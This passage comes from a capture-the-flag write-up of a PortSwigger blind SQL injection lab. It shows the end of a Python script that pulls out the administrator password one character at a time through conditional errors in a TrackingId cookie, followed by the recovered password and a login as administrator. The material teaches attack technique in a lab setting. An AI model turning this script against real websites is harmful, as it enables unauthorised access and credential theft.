 ```py
				cookie = {
					'session': 'YOUR_SESSIONID',
					'TrackingId': payload
				}

				r = requests.get(url, cookies=cookie)

				if r.status_code == 200:
					# print('Error occurred')
					continue
				else:
					# print('No error')
					position += 1
					password += ''.join(character)
					print(f'[+] Found password: {password}', end='\r')
					break

			if len(password) >= 20:
				print(f'[+] administrator password: {password}')
				exit()
	except KeyboardInterrupt:
		print('\n[*] Bye!')

if __name__ == '__main__':
	main()
```

```
┌──(root🌸siunam)-[~/ctf/Portswigger-Labs/SQL-Injection/SQLi-12]
└─# python3 exploit.py
[+] administrator password: 9i0d8hz9bqnm3cyqqivy
```

**Found it! Let's login as `administrator`!**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/SQL-Injection/SQLi-12/images/Pasted%20image%2020221207054059.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/SQL-Injection/SQLi-12/images/Pasted%20image%2020221207054114.png)

We're `administrator`!

# What we've learned:

1. Blind SQL injection with conditional errors